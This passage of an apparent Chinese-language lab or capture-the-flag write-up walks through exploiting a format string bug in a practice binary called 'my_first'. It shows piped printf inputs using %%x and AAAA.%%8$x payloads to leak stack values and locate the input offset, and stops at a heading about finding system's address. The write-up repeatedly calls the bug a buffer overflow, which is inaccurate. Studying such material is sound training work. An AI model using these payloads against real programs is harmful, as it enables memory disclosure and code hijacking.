 
2）print测试字符串缓冲区溢出

Select your tool:
[1] Calculator         ---计算器
[2] String replay      ---字符串回放
[3] String reverse     ---字符串反转
[4] Exit

printf '1\n1\n1\n4\n' | ./my_first
运行1用于计算器，\n用于换行（也称为输入），然后1用于第一个数字，1用于第二个数字和4退出！
还原也就是这样：
--------
└─# ./my_first     
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 1

Enter first number: 1
Enter second number: 1
Result: 1 + 1 = 2

Selection: 4

Goodbye!
--------
这时候就可以在其中添加%x进行下一步测试了！


3）测试溢出点-%%x

printf '1\n1\n%%x\n4\n' | ./my_first
回显：Enter first number: Enter second number: Error details: ffb160dc
可看到它需要2个%来逃避！

找到了%%来测试缓冲区溢出的手法后，需要开始查看空间地址植入A、B、C！


4）找到溢出空间显示

由于格式字符串中使用直接参数访问，可以直接引用参数8！

参考：https://zh.wikipedia.org/wiki/格式化字符串
由于占空间8位数利用：8$进行显示！

printf '1\n1\nAAAA.%%8$x%%x\n4\n' | ./my_first
回显：
Enter first number: Enter second number: Error details: AAAA.41414141ffff06ec
可以看到格式字符串中的参数8，是堆栈部分的开始！


5）寻找system位置
